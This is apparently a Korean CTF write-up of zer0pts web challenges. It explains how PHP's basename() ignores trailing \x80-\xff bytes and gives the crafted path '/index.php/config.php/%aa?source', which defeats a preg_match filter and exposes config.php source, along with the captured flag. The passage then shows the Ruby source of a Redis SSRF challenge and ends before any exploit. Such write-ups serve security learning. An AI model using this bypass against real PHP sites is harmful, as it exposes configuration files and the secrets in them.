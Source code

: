 ```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
```
<strong>하지만 preg_match() 함수를 이용해서 $_SERVER['PHP_SELF'] 값을 검증하고 있기 때문에 일반적으로 접근을 하게 되면 `config.php`가 필터링에 걸리기 때문에 힘들 거 같습니다.</strong><br><br>

<strong>그러다 구글링을 하다가 [여기서](https://ngaa.tistory.com/m/46?category=776250) 신기한 것을 발견했습니다. basename 함수에 \x80-\xff 범위의 값 중 하나만 들어오면 그 값은 무시한다는 것을 알 수 있었습니다.</strong>
```
php > echo basename("/index.php/config.php");
config.php
php > echo basename("/index.php/config.php/\xbb");
config.php
php > echo basename("/index.php/config.php/\xab");
config.php
php > echo basename("/index.php/config.php/\xff");
config.php
```
<strong>테스트를 해본 결과 \x80-\xff 범위의 값을 모두 무시하는 것을 확인할 수 있었습니다. 그리고 저 범위의 값들이 prge_match에 들어가도 우회가 됩니다.</strong> 

<b>*<span style="color:#631F9C">&#62;</span> Exploit*</b>
```
/index.php/config.php/%aa?source
```
<strong>위 path로 접근을 해주면 preg_match(), basename() 함수를 우회해 config.php의 소스 코드를 볼 수 있습니다.</strong>

`FLAG : zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}`

---

### (Web) urlapp [435pts]

<strong>urlapp 문제는 루비로 작성된 Redis 서비스에서 Redis SSRF 취약점을 주제로한 문제입니다. 하지만 왠지 모르게 익스를 계속 시도해도 set 명령어가 제대 인식이 되지 않는 거 같다. </strong>
```ruby

(생략)

def set(sock, key, value)
  query(sock, "SET #{key} #{value}")
  return recv(sock) == "OK"
end

def get(sock, key)
  query(sock, "GET #{key}")
  return recv(sock)
end

before do
  sock = connect()
  set(sock, "flag", File.read("flag.txt").strip)
end

get '/' do
  if params.has_key?(:q) then
    q = params[:q]
    if not (q =~ /^[0-9a-f]{16}$/)
      return
    end

    sock = connect()
    url = get(sock, q)
    redirect url
  end
```